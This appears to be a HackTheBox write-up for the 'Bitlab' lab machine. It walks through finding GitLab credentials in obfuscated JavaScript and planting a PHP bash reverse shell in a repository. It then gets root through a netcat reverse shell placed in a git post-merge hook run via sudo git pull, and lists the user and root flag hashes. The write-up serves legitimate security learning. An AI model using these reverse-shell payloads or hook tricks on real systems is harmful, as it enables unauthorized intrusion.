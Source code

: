 ```yaml
---
title: Bitlab Writeup
date: 2019-04-12 14:10:00 +0800
categories: [Pentesting]
tags: [htb]
seo:
  date_modified: 2020-03-07 20:43:16 -0500
---
```


## Enumeration

Beginning with a simple scan of the first 10000 ports

![Bitlab/Screen_Shot_2019-12-04_at_3.00.14_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_3.00.14_PM.png)

Nothing crazy. We see a web server, we go on the web. It is a gitlab server.

![Bitlab/Screen_Shot_2019-12-04_at_3.13.52_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_3.13.52_PM.png)

Normally I would run gobuster on it but I wanted to explore the site manually. On the bottom of the site, I clicked on the help link and another link showed up. That also lead to a list of links.

![Bitlab/Screen_Shot_2019-12-04_at_3.13.01_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_3.13.01_PM.png)

Gitlab Login looks interested. The link didn't go anything. All it had was obfuscated javascript. If we beautifier and decode the hex code, we are presented with a username and password.

![Bitlab/Screen_Shot_2019-12-04_at_4.22.12_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.22.12_PM.png)

decoded:

![Bitlab/Screen_Shot_2019-12-04_at_4.26.59_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.26.59_PM.png)

After login, we have two projects to explore. The Deployer project didn't really spark me as the Profile project. The profile project seems to be the source code of the developer's website. First thing I did was upload a php reverse shell at the bottom of index.html. Commit the changes and merge it to master

    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/1234 0>&1'");

Going to `[http://10.10.10.114/profile](http://10.10.10.114/profile)` activates the shell

![Bitlab/Screen_Shot_2019-12-04_at_4.47.25_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.47.25_PM.png)

## Privilege Escalation

I like to see if my current user can run any command as root or another user. And for us, we can sudo git pull.

![Bitlab/Screen_Shot_2019-12-04_at_4.53.11_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_4.53.11_PM.png)

 I have been working gitlab for a while now. I got to know about git hooks. Git hooks are basically scripts that can be executed depending on what git command you used. Some of them are post-merge, pre-commit and so much more. Take a look at this [article](https://www.atlassian.com/git/tutorials/git-hooks) and this [one](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) if you are interested in learning more about it. The exploit I used was similar to a project I was working on when learning about git. Here is the [link](https://github.com/emmaunel/CaptainHook) to it.

For this box, I used post-merge for my attack. Post merge is executed after a git merge has been done.

Start by copying the `.git` from the `/var/www/html/profile` to `/tmp/`. Now we echo a netcat reverse shell into post-merge in `/tmp/.git`. Next, we make a change to the README.md on the webserver and merge the changes. In your shell, do sudo git pull and that should give a root shell(make sure you are listening). This code snippet  below is exactly what explained in words:

    www-data@bitlab:/var/www/html/profile$ cp -R .git /tmp/
    www-data@bitlab:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 1337 >/tmp/f" > .git/hooks/post-merge
    www-data@bitlab:/tmp$ chmod 777 .git/hooks/post-merge
    **Make a change to README.md on the web**
    www-data@bitlab:/tmp$ sudo /usr/bin/git pull

Here's our listener with a root shell.

![Bitlab/Screen_Shot_2019-12-04_at_5.37.35_PM.png](/assets/img/bitlab/Screen_Shot_2019-12-04_at_5.37.35_PM.png)

Obviously this is an unintended way (jumping from www-data to root). I believe the intended way is to find some creds for the SQL database to get the user' s password. And from there ...(come back)

`User: 1e3fd81ec3aa2f1462370ee3c20b8154`

`Root: 8d4cc131757957cb68d9a0cddccd587c`